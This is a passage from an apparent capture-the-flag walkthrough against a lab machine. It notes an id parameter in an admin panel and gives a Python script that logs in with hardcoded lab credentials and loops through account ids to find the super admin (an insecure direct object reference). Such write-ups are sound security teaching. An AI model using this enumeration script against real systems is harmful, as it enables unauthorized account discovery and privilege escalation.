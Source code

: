 
> An important thing we should notice here is the `id=1` form the request in the address bar. Possibly there is an account enumeration.
{: .prompt-tip }

On the other pages, we have information about the Branding, as well as information about clients. But the `Uploads`{: .filepath} page we can't access because we don't have sufficient permissions to access it: _super admins rights_ needed.

It looks like there is an account with more access. Let's try to find it. 


### Foothold
---

Going back to the account information page, as mentioned above.

> The `id` parameter of the URL, id 1 seems to be the Admin.
{: .prompt-tip }

Can we get information about the super admin user if we can guess his id? Let's try using the following python script:

```python
#!/bin/python3

import requests
import signal
import threading
import logging
import sys

def def_handler(sig, frame):
    print("\n[!] Stopping the process...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
login_url = "http://10.10.10.28/cdn-cgi/login/index.php"
accounts_url = "http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="

def makeRequest():
    s = requests.session()

    post_data = {
        'username': 'admin',
        'password': 'MEGACORP_4dm1n!!'
    }

    p = s.post(login_url, data=post_data)
    for x in range(100):
        print(f"[+] Testing id: {x}")
        r = s.get(accounts_url + str(x))
        if 'super' in r.text:
            print(f"[+] Super admin id found: {x}")
            break

if __name__ == '__main__':
    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
        logging.error(str(e))
```
